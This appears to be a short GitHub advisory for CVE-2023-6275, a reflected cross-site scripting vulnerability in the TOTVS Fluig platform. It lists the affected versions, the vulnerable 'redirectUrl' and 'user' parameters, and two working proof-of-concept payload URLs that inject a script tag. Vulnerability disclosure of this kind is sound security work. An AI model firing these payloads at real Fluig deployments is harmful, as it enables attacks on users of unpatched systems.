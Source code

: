 # CVE-2023-6275 - Reflected Cross-Site Scripting in TOTVS Fluig Plataform 1.6.X - 1.8.1

The TOTVS Fluig platform, in its versions from 1.6.1.X to 1.8.1, is vulnerable to Cross-Site Scripting in the 'redirectUrl' and 'user' parameters within the 'mobileredir' module.

Fluig is the productivity and collaboration platform that integrates with the ERP system, developed by Brazil's largest technology company, TOTVS, and hosted on the client's server.

Versions affecteds:

--
Fluig 1.6.X - Fluig 1.8.1
…

### Attack Vector

https://fluig.host.com/mobileredir/openApp.jsp?redirectUrl=PAYLOAD

https://fluig.host.com/mobileredir/openApp.jsp?user=PAYLOAD

### Payloads:

https://fluig.host.com/mobileredir/openApp.jsp?redirectUrl="><script>alert(document.domain)</script>
https://fluig.host.com/mobileredir/openApp.jsp?user="><script>alert(document.domain)</script>
